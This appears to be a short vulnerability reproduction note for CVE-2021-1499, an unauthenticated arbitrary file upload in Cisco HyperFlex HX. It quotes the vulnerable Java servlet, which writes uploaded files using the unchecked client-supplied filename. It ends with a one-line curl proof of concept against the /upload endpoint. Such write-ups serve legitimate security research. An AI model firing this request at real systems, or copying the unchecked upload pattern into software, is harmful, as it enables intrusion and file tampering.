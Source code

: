 # Cisco HyperFlex HX upload any file upload vulnerability CVE-2021-1499

## Vulnerability Description

Cisco fixes two Unauth RCE and an arbitrary file upload in the HyperFlex HX data platform discovered by researchers Nikita Abramov and Mikhail Klyuchnikov

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco HyperFlex HX</span>

## Vulnerability reappears

The code that has a vulnerability is

```java
public void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    this.isMultipart = ServletFileUpload.isMultipartContent(request);
    response.setContentType("application/json");
    PrintWriter out = response.getWriter();
    if (!this.isMultipart) {
      out.println("{\"result\": \"Invalid content-type.\"}");
      logger.error("{\"result\": \"Invalid content-type. Must be multi-part\"}");
      response.setStatus(400);
      return;
    }
    ServletFileUpload upload = new ServletFileUpload();
    upload.setSizeMax(this.maxFileSize);
    FileOutputStream fout = null;
    InputStream stream = null;
    try {
      FileItemIterator iter = upload.getItemIterator(request);
      while (iter.hasNext()) {
        try {
          FileItemStream fi = iter.next();
          stream = fi.openStream();
          String uploadedFileName = this.dirPath + "/" + fi.getName();
          File uploadedFile = new File(uploadedFileName);
          fout = new FileOutputStream(uploadedFile);
          byte[] buffer = new byte[1024];
          int len;
          while ((len = stream.read(buffer, 0, buffer.length)) != -1)
            fout.write(buffer, 0, len);
          out.println("{\"result\": \"filename: " + uploadedFileName + "\"}");
          logger.debug("{\"result\": \"filename: " + uploadedFileName + "\"}");
        } catch (org.apache.commons.fileupload.MultipartStream.MalformedStreamException ex) {
          logger.info("MalformedStreamException during file upload servlet stream processing: " + ex);
        } finally {
          if (fout != null) {
            logger.info("Closing fout");
            fout.close();
          }
          if (stream != null) {
            logger.info("Closing stream");
            stream.close();
          }
        }
      }
    } catch (Exception ex) {
      out.println("{\"result\": \"Upload failed: " + ex.getMessage() + "\"}");
      logger.error("{\"result\": \"Upload failed: " + ex.getMessage() + "\"}");
      logger.error("Exception during file upload servlet stream processing: " + ex);
      response.setStatus(500);
    }
```

POC is

```plain
curl -v http://xxx.xxx.xxx.xxx/upload -F x=@/dev/null
```